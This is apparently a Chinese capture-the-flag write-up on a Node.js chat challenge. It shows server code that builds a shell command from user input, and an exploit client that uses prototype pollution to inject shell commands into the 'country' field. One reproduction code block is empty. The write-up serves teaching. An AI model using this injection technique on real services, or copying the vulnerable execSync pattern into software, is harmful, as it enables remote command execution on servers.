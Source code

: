 # Node.js Vulnerabilities
## prototype pollution attack
https://xz.aliyun.com/t/2802

題目是一個由Node.js編寫的基於socket.io的聊天應用，我們可以從 [https://dctf.def.camp/dctf-18quals-81249812/chat.zip](https://dctf.def.camp/dctf-18quals-81249812/chat.zip) 下載源碼
客戶端的代碼非常簡單，分析 client.js 我們可以發現其只是向服務端註冊用戶並發送消息：
```javascript
const io = require('socket.io-client')
const socket = io.connect('https://chat.dctfq18.def.camp')

if(process.argv.length != 4) {
  console.log('name and channel missing')
   process.exit()
}
console.log('Logging as ' + process.argv[2] + ' on ' + process.argv[3])
var inputUser = {
  name: process.argv[2],
};

socket.on('message', function(msg) {
  console.log(msg.from,"[", msg.channel!==undefined?msg.channel:'Default',"]", "says:\n", msg.message);
});

socket.on('error', function (err) {
  console.log('received socket error:')
  console.log(err)
})

socket.emit('register', JSON.stringify(inputUser));
socket.emit('message', JSON.stringify({ msg: "hello" }));
socket.emit('join', process.argv[3]);//ps: you should keep your channels private
socket.emit('message', JSON.stringify({ channel: process.argv[3], msg: "hello channel" }));
socket.emit('message', JSON.stringify({ channel: "test", msg: "i own you" }));
```

所以我們需要繼續審計服務端的代碼，可以看到 server.js 中存在著很一個敏感的函數 `getAscii`，在分析了其對應的代碼後，可以發現其中存在著一個很明顯的 command injection 問題：
```javascript
getAscii: function(message) {
    var e = require('child_process');
    return e.execSync("cowsay '" + message + "'").toString();
}
```

只要我們構造`message = "aaa';ls -al; echo 'xxx"`，就會服務器將命令`cowsay 'aaa'; ls -al; echo 'xxx'`執行後的查詢查詢結果發送給我們。

那麼我們需要關注的下一個問題則是哪裡會調用`getAscii`函數，可以發現服務端會在監聽到`join`和`leave`兩個事件的時候觸發該函數：
```javascript
client.on('join', function(channel) {
    try {
        clientManager.joinChannel(client, channel);
        sendMessageToClient(client,"Server", 
            "You joined channel", channel)

        var u = clientManager.getUsername(client);
        var c = clientManager.getCountry(client);

        sendMessageToChannel(channel,"Server", 
            helper.getAscii("User " + u + " living in " + c + " joined channel"))
    } catch(e) { console.log(e); client.disconnect() }
});

client.on('leave', function(channel) {
    try {
        client .join(channel);
        clientManager.leaveChannel(client, channel);
        sendMessageToClient(client,"Server", 
            "You left channel", channel)

        var u = clientManager.getUsername(client);
        var c = clientManager.getCountry(client);
        sendMessageToChannel(channel, "Server", 
            helper.getAscii("User " + u + " living in " + c + " left channel"))
    } catch(e) { console.log(e); client.disconnect() }
});
```

所以下一個問題則變成瞭如何控制變量`u`或`c`，即用戶輸入的用戶名和國家，但問題是不是這麼簡單呢？當然不是，服務端會對用戶的輸入做非常嚴格的校驗：
```javascript
validUser: function(inp) {
    var block = ["source","port","font","country",
                    "location","status","lastname"];
    if(typeof inp !== 'object') {
        return false;
    } 

    var keys = Object.keys(inp);
    for(var i = 0; i< keys.length; i++) {
        key = keys[i];

        if(block.indexOf(key) !== -1) {
            return false;
        }
    }

    var r =/^[a-z0-9]+$/gi;
    if(inp.name === undefined || !r.test(inp.name)) {
        return false;
    }

    return true;
}
```

可以看到由於正則檢查的存在，我們根本無法在`name`屬性注入代碼，而且由於黑名單的限制，我們也無法直接給`country`屬性賦值，我們可以使用prototype pollution attack來間接複寫country屬性。

具體操作如下：

1. 通過我們給對象的__proto__屬性賦值，構造出{"name":"xxx", "__proto__":{"country":"xxx';ls -al;echo 'xxx"}}
1. 在服務端接收該對象並調用clone函數後，攻擊生效。此時訪問對象的國家屬性，會得到我們注入的"xxx';ls -al;echo 'xxx"
1. 端的服務執行getAscii函數，觸發命令注入
1. 繼續改寫有效載荷，成功獲取標誌

![](https://i.imgur.com/8YfbuEZ.png)

```javascript
const io = require('socket.io-client')
const socket = io.connect('https://chat.dctfq18.def.camp')

socket.on('error', function (err) {
  console.log('received socket error:')
  console.log(err)
})

socket.on('message', function(msg) {
  console.log(msg.from,"[", msg.channel!==undefined?msg.channel:'Default',"]", "says:\n", msg.message);
});

socket.emit('register', `{"name":"xxx", "__proto__":{"country":"xxx';ls -al;echo 'xxx"}}`);
socket.emit('message', JSON.stringify({ msg: "hello" }));
socket.emit('join', 'xxx');
```

可以看到上題中，在收到客戶端的數據後，服務端會先調用JSON.parse解析用戶輸入，然後再調用克隆函數：`newUser = helper.clone(JSON.parse(inUser))`，而問題恰好出在`clone()`上，我們可以編寫代碼來復現該操作：
```

```
運行代碼，可以發現在調用`clone`函數之前，我們嘗試訪問`oldObj`的`oops`屬性，得到的結果是`undefined`，該屬性不存在;但在克隆後得到的新對象`newObj`中，我們成功訪問到了原本不存在的`oops`屬性。

很明顯，在調用`Object.getOwnPropertyNames(obj);`後獲得的鍵名中存在`__proto__`，因為在這裡`__proto__`屬性是`obj`對象的一個普通的自有屬性，所以可以被該函數所返回，而一般對象的`__proto__`屬性是不會被該函數所列舉出來的。而之後的`newObj['__proto__'] = clone(obj['__proto__']);`賦值操作使得`newObj`的原型發生了變化。

![](https://i.imgur.com/PV4rCxn.png)

三個對象分別調用`xxx.hasOwnProperty('__proto__')`函數，我們可以發現只有`oldObj`在調用該函數時返回了真;而在調用`Object.getPrototypeOf(xxx)`後，只有`newObj`和`oriObj`返回的是`Object {oops: "It works !"}`，`oldObj`返回的是`Object {constructor: , __defineGetter__: , __defineSetter__: , hasOwnProperty: , __lookupGetter__: , …}`。這說明`oldObj`的`__proto__`屬性與其餘二者不同，並非是指向原型的屬性，而是一個普通的自有屬性，與其餘的自有屬性並沒有什麼區別，只是恰好名字較為敏感。